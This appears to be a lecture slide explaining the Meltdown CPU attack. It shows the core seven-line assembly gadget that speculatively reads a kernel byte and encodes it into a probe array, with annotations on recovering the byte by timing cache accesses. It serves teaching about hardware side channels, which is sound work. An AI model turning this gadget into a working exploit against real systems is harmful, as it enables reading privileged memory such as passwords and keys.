

# Meltdown: Core Spy Code
1 rcx = kernel address
2 rbx = probe array
3 retry:
4 mov al, byte [rcx]
5 shl rax, 0xc
6 jz retry
7 mov rbx, qword [rbx + rax]
Retry reading privileged memory
Access privileged memory
Multiply by page size
Read from an attacker’s (unprivileged) array at (secret value) * 212
Attacker times accessing [rbx + rax]  for different values of rax
When finds one that loads fast, learns sensitive byte